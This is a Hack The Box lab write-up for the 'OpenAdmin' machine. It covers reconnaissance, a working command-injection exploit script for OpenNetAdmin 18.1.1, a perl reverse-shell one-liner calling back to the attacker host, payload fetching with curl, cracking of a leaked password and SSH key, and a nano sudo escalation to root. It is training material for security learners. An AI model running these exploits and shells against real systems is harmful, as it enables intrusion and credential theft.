# OpenAdmin
This box can be quite a pain for beginners to do, but the troubleshooting part is enough to learn some useful new tricks.


**Tools: nmap, gobuster, netcat, LinEnum/LinPEAS, ssh2john, john.**

We begin with the nmap scan:
> nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.171



With port 80 open, we can take a look at the webpage, and meanwhile run a fuzzer with gobuster:  
(Try a lower value [like 100, or use the default 10] for the -t flag if any error occurs)
> gobuster dir -u http://10.10.10.171/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 300



We're able to find the directories 'artwork', 'music' and 'sierra'. After some testing, we can see that in the 'music' directory, if we click on the 'Login' button we're redirected to the '/ona' directory.


This seems to be the OpenNetAdmin dashboard, and in here we can see the application's version (v18.1.1).



With this information, we can go straight to [exploit-db](https://www.exploit-db.com/) and look for an exploit.



There's an RCE exploit available for download. The code wasn't working for me, so I had to make a few changes (identation/spacing, mostly), so here's what worked for me:

```
#!/bin/bash
URL="${1}"
while true;do
    echo -n "$ "; read cmd
    curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e'/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Now we can simply run the shell script:

```
chmod +x 47691.sh
./47691.sh 10.10.10.171/ona/
```



And we have a shell.  
Now this is the part that took me some time to figure out. My attempts to spawn a fully interactive tty shell or start a reverse shell were always met with errors or simply a connection drop (I was monitoring it with 'tcpdump -i tun0'). So this is what worked for me:  
First of all, put a perl reverse shell code inside a file, let's call it revs.pl (it's a one-liner - remember to change the IP to your tun0 IP):  

```
perl -e 'use Socket;$i="10.10.14.245";$p=16501;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Next, start a python simple http server in the same folder of the perl file in your machine to send the exploit to the target:
> python3 -m http.server 80

In another terminal window, start a netcat listening session:
> nc -vnlp 16501

Now inside of the shell that we've got earlier with the exploit:

```
curl 10.10.14.245/revs.pl > revs.pl (use your tun0 IP)
chmod 777 revs.pl (give the file permission to run)
./revs.pl (run the script)
```

You'll get a shell in the netcat window, now we can finally spawn a fully interactive shell:
> python3 -c 'import pty;pty.spawn("/bin/bash")'



Now we need to enumerate the box.  
This next step didn't give many good results, but I'll write it down because it was a bit of a pain, and I've learned a few new tricks. With LinPeas I couldn't get it to save the output to a file without breaking the results completely, so I decided to use LinEnum.
> git clone https://github.com/rebootuser/LinEnum.git  
> cd LinEnum  

Start once again a python3 http server, and then curl the linenum.sh file to the target. After that, give the script permissions and run it:
> chmod 777 linenum.sh  
> ./linenum.sh -r result -e . -t

When it finishes, use netcat to send the file to your machine:
> nc -q 5 -vnlp 9068 < result-16-07-21

Then, in your machine, download the file through netcat and read it using 'less':
> nc -v 10.10.10.171 9068 > result-16-07-21  
> cat result-16-07-21 | less



Now we still need to manually enumerate the box.  
At /var/www/ we can see that the directory 'internal' can only be accessed by the user 'jimmy'. Further enumeration takes us to /var/www/html/ona/local/config and inside the ona database configuration file 'database_settings.inc.php' we can see that there's the user 'ona_sys' and an exposed password 'n1nj4W4rri0R!'.



We can try to SSH into jimmy's account with that password:



And now we are able to access the /var/www/internal directory.  
If we read the php files, we can see a hashed password (SHA512) in the index.php.  



We can crack it with an online tool such as [Crackstation](https://crackstation.net/), but we can also use John - save the hash to a hash.txt file:
> john hash.txt --format=Raw-SHA512 --wordlist=/usr/share/wordlists/rockyou.txt --rules=Jumbo

We'll get the password 'Revealed'. This is useful if you use the SSH port forwarding/tunneling technique to pwn this box, but I won't use that because I had some trouble with it, so this password won't have much use.  
Now reading the main.php we can see the following:



Without even knowing a lot about php code, we can already notice the chance that this file might be leaking an ssh private key.  

I got stuck at this point and had to get some help. We could either run 'ss -lnpt', 'netstat -naep | grep LISTEN | grep -v LISTENING' or read the file '/etc/apache2/sites-enabled/internal.conf'. Either way we'll find that there's an internal virtual host running on 127.0.0.1:52846 as user 'joanna'.



With this information, we could either create an SSH port forwarding/tunneling, or try to curl the main.php file:
> curl 127.0.0.1:52846/main.php

And we're lucky, because this works. We can save the key (I'm using its original filename):



Now we can run ssh2john toconvert the key to a format that can be cracked with john: 
> /usr/share/john/ssh2john.py id_rsa > hash  
> john hash --wordlist=/usr/share/wordlists/rockyou.txt



The password we get is 'bloodninjas'.  
Next up, we can use the ssh key and the password to access joanna's account through SSH:
> chmod 600 id_rsa  
> ssh -i id_rsa joanna@10.10.10.171



At joanna's home directory we can grab the user flag (user.txt).  
The escalation of privileges is the easiest part of this box. We simply check what files joanna can run as root:
> sudo -l



And, based on the results, we can use a simple nano sudo privesc from [GTFObins](https://gtfobins.github.io/gtfobins/nano/#sudo):
> sudo -u root /bin/nano /opt/priv

Inside the nano file, first press Ctrl+R then Ctrl+X and then type the command to be executed:
> reset; sh 1>&0 2>&0

Press enter and you'll be root. Now just grab the root flag at /root/root.txt and you're done!



Thats it, a very extensive box that requires quite a bit of troubleshooting and some very specific knowledge, but it's a great learning experience!  

Thanks for reading and keep hacking!
